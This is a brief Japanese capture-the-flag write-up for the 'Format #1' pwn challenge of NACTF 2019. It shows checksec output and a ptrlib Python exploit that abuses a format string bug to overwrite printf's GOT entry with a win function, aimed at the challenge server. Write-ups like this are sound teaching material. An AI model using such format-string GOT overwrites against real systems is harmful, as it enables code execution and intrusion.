 # [pwn 250pts] Format #1 - Network Academia CTF 2019
32ビットバイナリで、全部無効です。
```
$ checksec -f format-1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   RW-RUNPATH   72 Symbols     No       0               4       format-1
```

FSBがあるのでGOTを書き換えてwin関数に飛ばします。
```python
from ptrlib import *

elf = ELF("./format-1")
#sock = Process("./format-1")
sock = Socket("shell.2019.nactf.com", 31560)
writes = {elf.got("printf"): elf.symbol("win")}
payload = fsb(
    pos = 4,
    writes = writes,
    bs = 1,
    bits = 32
)
sock.sendlineafter(">", payload)

sock.interactive()
```

# 感想
簡単ですね。
